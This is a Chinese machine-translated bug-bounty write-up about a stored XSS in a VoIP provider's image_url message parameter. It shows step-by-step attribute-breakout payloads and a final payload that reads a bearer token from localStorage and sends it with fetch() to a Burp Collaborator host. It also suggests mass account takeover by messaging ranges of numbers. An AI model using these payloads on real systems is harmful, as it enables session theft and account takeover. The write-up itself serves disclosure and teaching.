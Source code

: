 # 组织接管存储的 XSS

> 原文：<https://infosecwriteups.com/stored-xss-to-organisation-takeover-6eaaa2fdcd5b?source=collection_archive---------4----------------------->

![](img/3d383dbaf9234b6753659179df1c0d03.png)

TL；DR:这是一篇关于我如何绕过 XSS 滤波器，从本地存储器中窃取会话令牌，从而接管一家领先的 VoIP 公司的文章。

# 介绍

> 我一直喜欢深入事物。XSS 不仅仅是找到警报盒，它的意义远不止于此。绕过过滤器是发现可怕的 XSS 臭虫的重要部分。我们应该总是试图将 XSS 病毒升级为账户接管。

这是一个私人项目。我尝试了所有不同的功能&文本功能引起了我的注意。通过此功能，我们可以向组织用户发送带有附件的文本。我开始发送一条附有图片的文本，并捕获了打嗝套件中的所有流量。在点击发送按钮时，应用程序首先请求在云存储上上传图像，然后请求带有参数 text、image_url 和其他重要参数的补丁，

我直接去追 **image_url** 。我试着把 image_url 从最初上传的图片 url 改成一个随机的&服务器接受了它。

![](img/0142a75b53b0499d90ad41d815baddfb.png)

修补程序请求中易受攻击的参数“image_url”

并且 URL 被反映为与标签和`s1600"`字符串连接在一起

![](img/ae022aed13579275cbc7092008f78a60.png)

image_url 的标记中的 HTML 反射

我立刻变得兴奋起来，开始测试端点

1.  首先，我在 Image_url 参数中放了一个不同的图像 URL。服务器接受了它
2.  我在 image_url 参数中放了一个非 URL 值，它也被接受了。
3.  现在我马上尝试了`javascript:alert()`，但是 javascript 在前端把它改成了`javascript:void(0)`。
4.  我试图摆脱引号，但这是安全编码。
5.  我试图用黑盒方法破坏过滤器，但没有成功。

真正让我好奇的一件事是为什么字符串`s1600`在前端连接到 image_url 值？所以我寻找负责这个的 javascript。在分析 javascript 时，在 image_url 参数中的一个或多个字符后添加双空格会在前端创建下面提到的 HTML 内容。

![](img/ad71c4858159900f404348722c96f618.png)

HTML 反射

之后，我在 image_url 参数中尝试了多个有效载荷。

有效载荷 1

`***image_url="xxx test"***`

在 HTML 中的反映就像

`<img src="xxx "="tests1600">`

有效载荷 2

`***image_url=*"xxx onerror=test"**`

在 HTML 中的反映就像

`<img src="xxx "onerror="tests1600">`

有效载荷 3

`***image_url=*"xxx onerror=alert(document.cookie);"**`

在 HTML 中的反映就像

`<img src="xxx "onerror="alert(document.cookie);s1600">`

**我在:D 页面得到了一个漂亮的警告框**

![](img/0c198b30ae05592f010b8161c60e8a77.png)

XSS 警报箱

为了避免重复，我立即将报告发送给相关程序，而没有为帐户接管创建实际的 POC。ASE 团队的回复是

![](img/077d49fe97b05c325d3e77f4228bec24.png)

现在我得想办法接管这个账户。首先，我想到通过 XSS 绕过 CSRF 保护来利用任何电子邮件更改功能。尽管如此，我看到影响是有限的，因为管理帐户只能改变电子邮件 id。在经历了不同的请求之后，我看到该应用程序在基于 cookies 的认证之上也使用了不记名令牌。应用程序以 JSON 格式在本地存储中存储不记名令牌。

# 局部存储器

![](img/0bda8553278a78b8da0fbfbd66db3a06.png)

本地存储是浏览器用来存储键/值对的 Web 存储 API。它为每个域(原点)维护一个单独的存储区域。即使浏览器关闭，数据仍保留在本地存储中。可以通过 Window.localStorage 对象访问本地存储。我们还可以在开发工具中检查本地存储。

![](img/b8ccfd92a19aa17787bf9a4cdc568170.png)

我们可以通过 javascript 读取本地存储。若要检索密钥，请使用。`getItem()`。

`localStorage.getItem('Key')`

![](img/9f7623d3a5dbf23fea8f5502402157d4.png)

我们可以用`JSON.parse`来解析这个键的 JSON 值

`json.parse(localStorage.getItem('Key')).KEYNAME`

![](img/8f37047590552473dd0717135e6eb2e4.png)

**从本地存储器窃取访问令牌**

现在，您已经了解了我们如何从本地存储中访问数据。就很容易理解最终的有效载荷。如前所述，应用程序将无记名令牌存储在本地存储中。让我来分解我最后的有效载荷。

1.  我首先从本地存储器
    `token=JSON.parse(localStorage.getItem('KEYNAME')).access_token`中检索 access_token
2.  我的 Burp 协作者 URL 的串联令牌
    `url=https://g0h5el9lym4iht5u2co4ovymud03os.burpcollaborator.net/'token`
3.  向 URL 发送获取请求以接收令牌
    `fetch(url)`

参数 image_url 的最终有效负载:

`"xxx onerror=token=JSON.parse(localStorage.getItem('KEYNAME')).access_token,url=https://g0h5el9lym4iht5u2co4ovymud03os.burpcollaborator.net/'+token,fetch(url);"`

它在 HTML 中反映为

`<img src="xxx" onerror="token=JSON.parse(localStorage.getItem('KEYNAME')).access_token,url='https://g0h5el9lym4iht5u2co4ovymud03os.burpcollaborator.net/'+token,fetch(url);s1600">`

![](img/7f9cbb0bb79186e5081c94b4e4534091.png)

已收到打嗝请求。

# 让攻击更上一层楼

该 VoIP 提供商提供了一系列联系号码。我们可以通过将消息有效负载发送到一个完整的数字序列来进行批量帐户接管&在批量级别获得访问令牌。

你可以在推特上关注我。